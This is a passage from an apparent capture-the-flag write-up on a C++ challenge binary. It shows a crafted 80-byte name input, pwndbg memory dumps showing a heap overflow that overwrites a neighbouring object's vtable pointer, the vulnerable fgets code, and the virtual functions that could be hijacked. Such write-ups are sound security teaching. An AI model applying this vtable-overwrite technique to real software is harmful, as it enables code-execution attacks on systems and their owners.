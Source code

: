 ```
// naming the cat "A"*72 + "B"*8
Enter a name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
Cat named!
...
pwndbg> p *(Cat *)0x5d5220
$8 = {
  _vptr.Cat = 0x5afff0 <vtable for Manx+16>,
  m_name_ = 'A' <repeats 64 times>
}
pwndbg> p *(Cat *)0x5d5270
$7 = {
  _vptr.Cat = 0x4242424242424242,
  m_name_ = "\000\000named :(", '\000' <repeats 53 times>
}
pwndbg> x/100gx 0x5d5210
0x5d5210:	0x0000000000000000	0x0000000000000051
0x5d5220:	0x00000000005afff0	0x4141414141414141
0x5d5230:	0x4141414141414141	0x4141414141414141
0x5d5240:	0x4141414141414141	0x4141414141414141
0x5d5250:	0x4141414141414141	0x4141414141414141
0x5d5260:	0x4141414141414141	0x4141414141414141
0x5d5270:	0x4242424242424242	0x2064656d616e0000
0x5d5280:	0x000000000000283a	0x0000000000000000
0x5d5290:	0x0000000000000000	0x0000000000000000
0x5d52a0:	0x0000000000000000	0x0000000000000000
```

So our input at offset 72 overwrites the next cat's vtable pointer! The overflow takes place in the `name_cat` function:
```c
int choice;
char *my_input;
...
// randomly choose a cat
choice = rand();
...
cat = cats[choice & 0x3f];
my_input = cat->name;

// read my input up to 0x80 (128) bytes
//   this explains how the name input ends up being 127 characters (+1 for the null terminator) long
fgets(my_input,0x80,(FILE *)stdin);
...
```

If we were to use this to overwrite a cat's vptr to a different breed's pointer, we could change its behavior when its virtual functions are called. But when are these virtual functions used? Well, in ghidra we can see three of them:
```c
// returns the name of the breed; called 
virtual char *Cat::breed(void);

// returns a description of the breed; never called in the binary
virtual char *Cat::extra_info(void);

// prints a short message; called when you pet the cat
virtual void Cat::pet(void);
```
